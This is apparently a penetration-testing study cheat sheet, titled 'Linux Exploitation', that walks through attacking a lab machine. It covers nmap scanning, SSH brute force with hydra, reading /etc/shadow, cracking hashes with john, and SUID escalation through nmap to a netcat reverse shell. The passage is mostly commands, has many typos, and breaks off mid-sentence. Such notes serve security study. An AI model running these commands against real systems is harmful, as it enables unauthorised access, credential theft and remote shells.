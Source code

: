 #Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installe in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener
```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/
- The main objective